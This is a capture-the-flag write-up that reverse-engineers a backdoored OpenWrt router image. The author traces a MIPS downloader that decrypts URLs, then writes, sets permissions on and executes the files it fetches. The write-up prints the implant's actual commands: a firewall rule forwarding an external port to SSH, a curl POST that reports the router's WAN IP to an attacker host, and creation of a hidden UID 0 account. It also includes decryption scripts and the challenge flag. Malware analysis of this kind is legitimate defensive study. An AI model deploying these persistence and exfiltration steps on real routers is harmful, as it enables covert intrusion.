# Zombie Net

## Scenario

There was an attack on the NOC (Network Operations Center) of Hackster University and as a result, a large number of Network devices were compromised! After successfully fending off the attack the devices were decommissioned and sent off to be inspected. However, there is a strong suspicion among your peers that not all devices were identified! They suspect that the attackers managed to maintain access to the network despite our team's efforts! It's your job to investigate a recently used disk image and uncover how the Zombies maintain their access! Note: Make sure you edit /etc/host so that any hostnames found point to the Docker IP.

## Given artifacts

A compressed `.bin` file containing OpenWRT OS for router, revisit Easy challenge `Silicon Data Sleuthing` if you are not familiar with it

## Solving process

First I run `binwalk -e ...` to extract the file systems inside the .bin file, we only need to pay attention to `squashfs.root`. While wandering around the mini Linux OS , I run into this suspicious file:



This shell script calls another script, then sleeps for 600 seconds, I head for that file and perform initial triage with strings:



Some function names can be seen here, but we still need thorough investigation, this is an executable file, specifically `ELF 32-bit LSB executable, MIPS, MIPS32 rel2 version 1`, let's fire up `ghidra`:



Ghidra cannot find the main function, but from the entry we can find our way to this function. Here we can see a typical evasion technique in malware dropper, a.k.a stager function. Instead of storing strings neatly in the .rodata section where we can easily read them with a tool like strings, the program builds them dynamically on the stack, byte-by-byte.

But notice that some value is unprintable in ASCII, or even non-existing like negative values, implying that this is not the final state of it, possibly they will go through another decrypt function. After initializing the array, they copy larger chunk of data from global memory into local stack variables:



Note that the function `...c04` is called 4 times and take all the stack variables as parameters, that should be the **decrypt** function

Now that the strings are decrypted, the actual execution begins:

- `access(local_a8, 0)`: This checks if the file specified by the decrypted path local_a8 exists on the disk. (The 0 flag stands for F_OK / existence check).

- `if (iVar1 == -1)`: If access returns -1, the file does not exist.

- `FUN_00400b20(auStack_7c, local_a8)`: Since the file is missing, this function is likely to create it. It uses the decrypted data payload (auStack_7c) and writes it to the decrypted file path (local_a8). Rename FUN_00400b20 to Write_File_To_Disk.

- `chmod(local_a8, 0x1ff)`: 0x1ff is the hexadecimal representation of octal 0777 (rwxrwxrwx). It is giving the newly dropped file full execution permissions.

- Finally, it uses the standard `system()` call to execute both of the newly dropped and permissioned files.

Visit the alleged decrypt function to validate our guess:



Let's see what the chunk is doing (Computer Architecture revisits...) :

1. The Fast Modulo: 0x1f is 31 in decimal (binary 00011111). Bitwise ANDing a number with 31 (& 0x1f) is a CPU-efficient way to calculate modulo 32 (% 32).

2. The Sign Check: The 0x80000000 bit and the if (< 0) block are there because in C, the modulo operator handles negative numbers differently than positive ones. The compiler is generating safe code to ensure that if local_10 were negative, the modulo would still wrap correctly.

3. The Reality: Since local_10 is just your loop counter starting at 0, it will never be negative. You can completely ignore the if statement in your head.

So in short: `uVar1 = local_10 % 32` , and that 32-byte XOR key lies in the `...f24` memory

After checking the function called when file not exist, we can be sure that this is a **Downloader**:



I'm not so familiar with reverse-engineering, but we can be quite sure that `param_1` holds the URL, and `param_2` stores the file path.

Now that we get everything we need, let's simulate the process with python script! First we need to grab the XOR key and the data stored in two stack variables. In ghidra's list pane, press G to open `go to` feature and enter these DAT_... address, drag mouse to copy exactly the bytes needed for each, 32 for key, 58 (0x3a) for the first stack, 55 (0x37) for the second stack



```python
KEY = b'\xdf\x11\x02\xea\x51\x80\x91\xcc\x0d\x2f\xe1\x2b\x34\x8f\xac\xe3\xa0\x2b\x90\x5e\x03\xa2\xa4\x32\xed\xee\x03\x96\x83\x57\xf4\xb0' #extract from ghidra

local_a8 = [-0x10, 'e', 'o', -0x66, '~', -0x1c, -0xc, -0x53, 'i', 'p', -0x6d, 'N', 'U', -0x1f, -0x3b, -0x72, -0x3f, '_', -0xb, ':']
local_90 = [-0x10, 'e', 'o', -0x66, '~', -0xe, -0xc, -0x53, 'c', 'F', -0x74, 'J', '@', -0x16, -0x7e, -0x70, -0x38]

DAT_00400f74 = b'\xb7\x65\x76\x9a\x6b\xaf\xbe\xaf\x62\x41\x87\x42\x53\xfc\x82\x91\xcf\x5e\xe4\x3b\x71\x8c\xcc\x46\x8f\xc1\x67\xf3\xe2\x33\xab\xc2\xba\x70\x6c\x83\x3c\xe1\xe5\xa9\x69\x70\x8c\x65\x59\xd5\xf8\xae\xd4\x65\xfa\x0b\x30\xfb\xf7\x02\xdd\x00'
DAT_00400fb0 = b'\xb7\x65\x76\x9a\x6b\xaf\xbe\xaf\x62\x41\x87\x42\x53\xfc\x82\x91\xcf\x5e\xe4\x3b\x71\x8c\xcc\x46\x8f\xc1\x71\xf3\xe2\x39\x9d\xdd\xbe\x65\x67\xc4\x22\xe8\xce\xa6\x48\x55\xae\x7c\x79\xfb\xf6\xb7\xf5\x53\xdf\x0d\x33\x92\x00' 

def decrypt_xor(data, key):
    decrypted = ""
    for i in range(len(data)):
        byte_val = ord(data[i]) if isinstance(data[i], str) else data[i]
        
        # Convert negative C-chars (like -0x10) to standard 8-bit unsigned bytes (like 0xf0)
        byte_val = byte_val & 0xFF 
        
        decrypted_char = chr(byte_val ^ key[i % len(key)])
        decrypted += decrypted_char
        
    return decrypted

def main():
    print("--- File Paths ---")
    print(f"local_a8 (File 1): {decrypt_xor(local_a8, KEY)}")
    print(f"local_90 (File 2): {decrypt_xor(local_90, KEY)}")
    
    print("\n--- Payloads / URLs ---")
    print(f"DAT_00400f74: {decrypt_xor(DAT_00400f74, KEY)}")
    print(f"DAT_00400fb0: {decrypt_xor(DAT_00400fb0, KEY)}")

if __name__ == "__main__":
    main()
```

Great, we recover the URL and file path:



Replace the domain with the docker instance's IP address to get those file, one of them is ASCII text executable, meaning we can `cat` directly, the other possibly need thorough investigation with ghidra:



```bash
WAN_IP=$(ip -4 -o addr show pppoe-wan | awk '{print $4}' | cut -d "/" -f 1)
ROUTER_IP=$(ip -4 -o addr show br-lan | awk '{print $4}' | cut -d "/" -f 1)
```

The script uses standard Linux command-line tools to extract two critical IP addresses:

- `WAN_IP`: It looks at pppoe-wan, which is the standard external interface for DSL/Fiber internet on OpenWrt routers. This is the public-facing IP address.

- `ROUTER_IP`: It looks at br-lan, the local bridge interface. This is the router's internal gateway IP (usually something like 192.168.1.1).

```bash
CONFIG="config redirect         \n\t
        option dest 'lan'           \n\t
        option target 'DNAT'        \n\t
        option name 'share'         \n\t
        option src 'wan'            \n\t
        option src_dport '61337'    \n\t
        option dest_port '22'       \n\t
        option family 'ipv4'        \n\t
        list proto 'tcpudp'         \n\t
        option dest_ip '${ROUTER_IP}'"
```

This is written in UCI (Unified Configuration Interface) syntax, which OpenWrt uses to manage services. This specific block creates a Destination Network Address Translation (DNAT) rule, commonly known as Port Forwarding. It tells the router to listen on its public, external-facing interface (wan) on port 61337. Any traffic hitting that specific external port is silently redirected to port 22 (SSH) on the router's internal IP (dest_ip). This is a clever bypass: external SSH is normally blocked by default on routers, but by using a high, random port like 61337 and routing it internally, the attacker slips past the standard firewall drops.

```bash
echo -e $CONFIG >> /etc/config/firewall
/etc/init.d/firewall restart
```

The script appends the malicious DNAT rule directly to the end of the router's permanent firewall configuration file. By restarting the firewall service immediately, the backdoor goes live without needing to reboot the router. Because it's written to /etc/config/firewall, this backdoor will persist even if the device is powered off and back on.

```bash
curl -X POST -H "Content-Type: application/json" -b "auth_token=SFRCe1owbWIxM3NfaDR2M19pbmY" -d '{"ip":"'${WAN_IP}'"}' http://configs.router.htb/reanimate
```

Finally, the backdoor needs to tell the attacker where to connect, as many home routers have dynamic public IPs that change constantly, it makes HTTP POST request to the attacker's server to report that newly harvested WAN_IP, using a base64-encoded token, which turns out to be the first half of our flag:



Now let's dive into the elf file, using ghidra:



This is the main function that ghidra recognizes, we can initially observe that it declares a lot of variables and stacks

```c
  builtin_strncpy(local_20,"zombie_lord",0xc);
  memcpy(auStack_68,"d2c0ba035fe58753c648066d76fa793bea92ef29",0x29);
  memcpy(acStack_3c,&DAT_00400d50,0x1b);
  sVar1 = strlen(acStack_3c);
  pvVar2 = malloc(sVar1 << 2);
  init_crypto_lib(auStack_68,acStack_3c,pvVar2);
```

First it defines username `zombie_lord` in variable `local_20`, then copies which seems to be a SHA-1 hash (40 characters) to variale `auStack_68`, after that, it copies 27 bytes from global memory `DAT...d50` to `acStack_3c` . The last line is used to decrypt something, and result is stored in `pvVar2`

```c
curl_easy_setopt(iVar3,0x2712,"http://callback.router.htb");
curl_easy_setopt(iVar3,0x271f,pvVar2);
curl_easy_perform(iVar3);
```

Then the malware 'phones home', sending the decrypted result to the attacker's server

```c
    pFVar4 = fopen("/proc/sys/kernel/hostname","r");
    local_168 = 0;
    memset(auStack_164,0,0xfc);
    sVar1 = fread(&local_168,0x100,1,pFVar4);
    fclose(pFVar4);
    (&cStack_169)[sVar1] = '\0';
    iVar3 = strcmp((char *)&local_168,"HSTERUNI-GW-01");
    if (iVar3 == 0) {
      _Var5 = getuid();
      if ((_Var5 == 0) || (_Var5 = geteuid(), _Var5 == 0)) {
        ppVar6 = getpwnam(local_20);
        if (ppVar6 == (passwd *)0x0) {
          system(
                "opkg update && opkg install shadow-useradd && us eradd -s /bin/ash -g 0 -u 0 -o -M zombie_lord"
                );
        }
        pFVar4 = popen("passwd zombie_lord","w");
        fprintf(pFVar4,"%s\n%s\n",pvVar2,pvVar2);
        pclose(pFVar4);
        uVar7 = 0;
      }
      else {
        uVar7 = 0xffffffff;
      }
    }
```

The malware checks the system's hostname. If the hostname is not exactly HSTERUNI-GW-01, the program just exits (uVar7 = 0xffffffff). This ensures the malware only infects the specific router the attacker is targeting. If an analyst drops this into a standard sandbox or a test VM (which usually has a generic hostname like ubuntu or kali), the malware does nothing, making it look harmless.

If the hostname matches, it checks if it is running as root. In Linux, the root user always has a User ID (UID) and Effective User ID (EUID) of 0. If it's not root, it doesn't have the permissions to create accounts, so it bails out.

If the zombie_lord account doesn't exist yet, it creates it.
The command it runs gives away that this is specifically targeting an OpenWrt embedded router, as it uses opkg (the OpenWrt package manager) to install the useradd utility, which is often stripped out of lightweight router firmware.

Look closely at the useradd flags:
- s /bin/ash: Gives the user a standard shell login.
- g 0 -u 0 -o: This is the most malicious part. It assigns the user a UID of 0 and a GID of 0. This makes zombie_lord an absolute root-equivalent account. Even though the name isn't "root", the Linux kernel will treat it exactly like root.
- M: Don't create a home directory (keeps it stealthy).

Finally, it uses popen to programmatically interact with the passwd command. It pipes in the decrypted string (pvVar2) twice (once for the "New password" prompt, once for the "Retype password" prompt), officially setting the password for the root-equivalent zombie_lord account.

**Now let's check the decrypt function!**

```c
undefined4 init_crypto_lib(undefined4 param_1,undefined4 param_2,undefined4 param_3)

{
  undefined1 auStack_110 [260];
  
  key_rounds_init(param_1,auStack_110);
  perform_rounds(auStack_110,param_2,param_3);
  return 0;
}
```

This function takes 3 arguments and passes them to other 2 functions, their names ring a bell, **this is RC4**



**`key_rounds_init`** = the KSA (Key-Scheduling Algorithm)
- In RC4, the algorithm uses a 256-byte array (often called the S-box or State array). The KSA's job is to scramble this array using your key.
- The First Loop (Lines 18-22): You can see a do...while loop going from 0 to 0x100 (256). It simply fills the array with the values 0 through 255 in order (S[0]=0, S[1]=1... S[255]=255). This is the biggest telltale signature of RC4 in reverse engineering.
- The Second Loop (Lines 25-36): It loops 256 times again. This time, it uses the characters of the key (param_1) to calculate a new index (iVar5) and swaps the bytes around, completely shuffling the 256-byte S-box based on the SHA-1 hash we found earlier.



**`perform_rounds`** = the PRGA (Pseudo-Random Generation Algorithm)
- Once the KSA has scrambled the 256-byte S-box, the PRGA takes over to actually encrypt or decrypt the data.
- The Generator: for every byte of the ciphertext, it updates two counters (uVar5 and uVar6), swaps two values in the S-box, and picks a byte out of the S-box to use as the "keystream".
- The XOR (Line 23): It takes that single generated byte from the S-box and XORs (^) it against the ciphertext byte (param_2[sVar4]).

Okay, let's finish this challenge, go to ghidra and copy those 27 bytes ciphertext at `DAT_00400d50` address, and use this python script to recover the plaintext:

```python
def rc4_decrypt(key: bytes, ciphertext: bytes) -> str:
    #KSA
    S = list(range(256))
    j = 0
    for i in range(256):
        j = (j + S[i] + key[i % len(key)]) % 256
        S[i], S[j] = S[j], S[i] 

    #PRGA 
    i = 0
    j = 0
    plaintext = []
    for char in ciphertext:
        i = (i + 1) % 256
        j = (j + S[i]) % 256
        S[i], S[j] = S[j], S[i]  
        
        K = S[(S[i] + S[j]) % 256]
        plaintext.append(chr(char ^ K))
        
    return "".join(plaintext)

def main():
    key = b"d2c0ba035fe58753c648066d76fa793bea92ef29"
    ciphertext = b'\xc5\x7c\x2b\x05\x48\x90\xf3\xb7\x3f\x76\x0f\x5b\x68\x7b\x62\x72\xbd\xf8\x01\x9b\x57\x47\x1e\x6f\xdf\x8c\x55' 

    password = rc4_decrypt(key, ciphertext)
    print(password)

if __name__ == "__main__":
    main()
```



Got the flag!

`Flag: HTB{Z0mb13s_h4v3_inf3ct3d_0ur_c0mmun1c4t10ns!!}`